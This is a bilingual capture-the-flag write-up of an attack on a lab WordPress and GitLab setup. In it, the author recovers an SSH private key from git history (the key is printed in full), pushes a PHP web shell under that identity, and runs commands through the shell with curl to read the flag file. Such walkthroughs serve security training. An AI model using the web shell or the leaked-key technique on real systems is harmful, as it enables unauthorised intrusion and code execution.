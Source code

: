 ```
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```
![image](https://user-images.githubusercontent.com/6504854/209685487-d6be48c2-e8af-4c13-9a96-55332a790dd3.png)

```
cd wordpress.flag.net.internal
git log
```

![image](https://user-images.githubusercontent.com/6504854/209685710-9cda9abb-f15f-44a7-a1b6-db10fc400181.png)

```
git show e19f653bde9ea3de6af21a587e41e7a909db1ca5
```

![image](https://user-images.githubusercontent.com/6504854/209686086-8f03dd2d-aa19-46a9-85df-c933a6cb54e9.png)

```
grinchum-land:~/wordpress.flag.net.internal$ mkdir ../.ssh
grinchum-land:~/wordpress.flag.net.internal$ vi ../.ssh/key
```
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
```
grinchum-land:~/wordpress.flag.net.internal$ chmod 600 ../.ssh/key
ssh -T git@gitlab.flag.net.internal -i ~.ssh/key
```

```
ED25519 key fingerprint is SHA256:jW9axa8onAWH+31D5iHA2BYliy2AfsFNaqomfCzb2vg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gitlab.flag.net.internal' (ED25519) to the list of known hosts.
Welcome to GitLab, @knee-oh
```

```
grinchum-land:~/wordpress.flag.net.internal$ vi 1.php
```
```
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```
```
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "you@example.com"
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "Your Name"
grinchum-land:~/wordpress.flag.net.internal$ git add 1.php
grinchum-land:~/wordpress.flag.net.internal$ git commit 1.php -m "cmd"
[main 5387726] cmd
 1 file changed, 6 insertions(+)
 create mode 100644 1.php
```
 
```
grinchum-land:~/wordpress.flag.net.internal$ git push
Username for 'http://gitlab.flag.net.internal': 
Password for 'http://gitlab.flag.net.internal': 
remote: HTTP Basic: Access denied. The provided password or token is incorrect or your account has 2FA enabled and you must use a personal access token instead of a password. See http://gitlab.flag.net.internal/help/topics/git/troubleshooting_git#error-on-git-fetch-http-basic-access-denied
```
IDとパスワードがわからないのでSSH鍵でPUSHする方法を探した

I don't know my ID and password, so I looked for a way to PUSH with my SSH key.

https://docs.gitlab.com/ee/user/ssh.html

```
grinchum-land:~/.ssh$ eval $(ssh-agent -s)
Agent pid 509
grinchum-land:~/.ssh$ ssh-add /home/samways/.ssh/key
Identity added: /home/samways/.ssh/key (sporx@kringlecon.com)
grinchum-land:~/.ssh$ vi config
```

```
Host gitlab.flag.net.internal
    PreferredAuthentications publickey
    IdentityFile home/samways/.ssh/key
```

```
grinchum-land:~/.ssh$ cd ../w*
grinchum-land:~/wordpress.flag.net.internal$
git remote set-url origin ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
grinchum-land:~/wordpress.flag.net.internal$ git remote -v
origin  ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git (fetch)
origin  ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git (push)
grinchum-land:~/wordpress.flag.net.internal$ git push
```

```
grinchum-land:~/wordpress.flag.net.internal$ curl http://wordpress.flag.net.internal/1.php?cmd=ls
1.php
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
xmlrpc.php
```

```
grinchum-land:~/wordpress.flag.net.internal$ curl http://wordpress.flag.net.internal/1.php?cmd=find%20/%20-name%20*flag*.*
```
![image](https://user-images.githubusercontent.com/6504854/209704481-8c9b649f-f049-4058-b1c3-2f2b3d20bc82.png)

```
grinchum-land:~/wordpress.flag.net.internal$ curl http://wordpress.flag.net.internal/1.php?cmd=cat%20/flag.txt
```

普通にReversShellはったら重すぎで動かなかったのでPHPのワンライナー系になった。

要求されてる方向性がわからず、３日かかった。

あとGitLabのレポジトリをHTTPからSSHへ変更するとこで１日はまった。公式ドキュメント神。

I tried to use ReversShell as usual, but it was too heavy and didn't work, so I used a PHP one-liner.

It took me 3 days to figure out how to go the direction.

Also, I got stuck for a all day when I had to change GitLab repository from HTTP to SSH. 

The official documentation is god.

